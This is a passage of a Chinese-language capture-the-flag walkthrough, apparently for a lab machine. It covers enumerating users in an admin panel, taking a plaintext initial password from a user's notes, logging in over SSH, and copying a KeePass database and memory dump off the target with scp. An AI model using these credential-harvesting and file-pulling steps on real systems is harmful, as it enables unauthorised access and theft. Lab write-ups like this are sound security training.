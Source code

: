 成功登入管理介面！

### 用戶枚舉

在 Admin → Users 找到兩個用戶：

1. **root** (Admin)
2. **lnorgaard** (Lise Nørgaard)

查看 lnorgaard 的用戶資料，在備註欄發現：

```
Initial password: Welcome2023!
```

### SSH 登入

```bash
ssh lnorgaard@10.10.11.227
# Password: Welcome2023!
```

成功登入並取得 user flag：

```bash
cat ~/user.txt
```

## 權限提升

### 檔案發現

在用戶主目錄發現兩個有趣的檔案：

```bash
ls -la ~
```

```
RT30000.zip
KeePassDumpFull.dmp
```

### 下載檔案

```bash
scp lnorgaard@10.10.11.227:~/RT30000.zip .
scp lnorgaard@10.10.11.227:~/KeePassDumpFull.dmp .
```

解壓 ZIP 檔：

```bash
unzip RT30000.zip
```

得到：
- `passcodes.kdbx` - KeePass 資料庫
- `KeePassDumpFull.dmp` - 記憶體傾印檔
